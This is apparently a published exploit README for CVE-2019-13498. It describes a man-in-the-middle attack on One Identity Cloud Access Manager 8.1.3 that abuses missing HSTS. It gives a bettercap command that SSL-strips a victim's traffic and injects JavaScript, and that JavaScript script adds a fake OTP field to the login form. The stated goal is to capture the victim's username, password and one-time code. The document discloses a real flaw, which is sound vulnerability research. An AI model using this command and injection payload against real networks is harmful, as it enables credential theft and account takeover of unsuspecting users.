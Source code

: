 # CVE-2019-13498

Exploit Title: MITM - Missing HSTS causing credential theft and content manipulation<br>
Date: 07/10/2019<br>
Exploit Author: Furqan Khan<br>
Vendor Homepage: https://www.oneidentity.com/<br>
Software Link: https://www.oneidentity.com/products/cloud-access-manager/<br>
Version: 8.1.3<br>
Tested on: Kali Linux , Windows 7 ,Ubantu 16.04<br>

#### To conduct the MITM attack and steal username , password and OTP , we make use of bettercap 1.6.Ideally , the OTP box is populated at the second page of the application , after the user sucessfully autheticates with a legitimate username and password. However we use SSL strip and content manupulation to inject a OTP text box at the same page where username and password are prompted. A victim may think this change is comming from application itself , and shall share username , password and OTP and submit the form.The attacker who has set up bettercap and proxy , will get the credentials and OTP , and shall use the same to login to the application.


# The bettercap command used is :
##### bettercap -T 192.168.1.103 --proxy -P post --proxy-module injectjs --js-file inject_js.js ####

![bettercap.jpg](https://github.com/FurqanKhan1/CVE-2019-13498/blob/master/1.PNG)

Here 192.168.1.103 is the IP address of the victim. If we do not know it , we can use bettercap , to sniff and manipulate content of the entire LAN (common network of attacker and victim)

## The content of inject_js.js is given as under ##

```html
<script>
 
function replace_payload()
{  


     var append_str='<div class="wrap-input100 validate-input m-b-20" data-validate="Password"><input class="cui-textbox" type="password"  id="passwordTextbox" name="passwordTextbox"><span class="focus-cui-textbox" data-placeholder="OTP"></span></div>';

     var text_div=$(".m-b-20");

     text_div.append(append_str);

    }

    function control(){setTimeout(replace_payload,2000);} control();
    
</script>
```
##### Now when the victim would browse the product (Cloud access manager) , due to cache piosining and SSL strip (Bettercap) ,an OTP text box will be injected in the page that would be served to victim via the injected javascript snippet #####
![injected.jpg](https://github.com/FurqanKhan1/CVE-2019-13498/blob/master/2.PNG)

##### Given that the connection is downgraded to http via ssl-strip , now all traffic shall be visible to the attacker.Thus we can intercept the traffic , and see the username , password and OTP submitted by victim. #####

![intercept.jpg](https://github.com/FurqanKhan1/CVE-2019-13498/blob/master/3.PNG)

#####  Bingo ! That was easy ! #####

